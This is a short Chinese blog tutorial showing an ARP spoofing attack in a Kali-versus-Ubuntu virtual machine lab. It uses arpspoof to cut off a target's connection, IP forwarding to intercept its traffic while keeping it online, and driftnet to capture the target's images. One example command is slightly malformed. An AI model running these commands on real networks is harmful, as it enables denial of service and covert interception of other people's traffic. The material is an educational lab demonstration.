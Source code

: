 ```yaml
---
title: ARP攻击
date: 2016-07-14 16:50:30
tags:
- 计算机安全
- kali
---
```

> kali环境下arp攻击实例

开启两台虚拟机，分别是kali和ubuntu。两台虚拟机必须在同一网段。
ubuntu的ip: 192.168.99.162，网关为: 192.168.99.1
kali自带了arpspoof攻击，若得知对方ip和网关，以及使用的网卡。那么使用下面的命令，则可以使对方上不了网
```shell
arpspoof -i [网卡] -t [ip地址] [网关地址]
```
在kali中输入命令：```arpspoof -i etho 192.168.99.162 192.168.99.1```
成功的话，目标主机的流量都会经过攻击方主机的网卡。这些流量并不会被转发，所以目标主机断网。
![result](result.png)
若想进行arp欺骗，目标主机得正常上网。使用如下命令：```echo 1 > /proc/sys/net/ipv4/ip_forward```，攻击方可以将对方发来的流量转发给正确的网关。在kali中，输入以下命令```driftnet -i eth0```可以截获目标主机发来的图片。
![pictures](picture.png)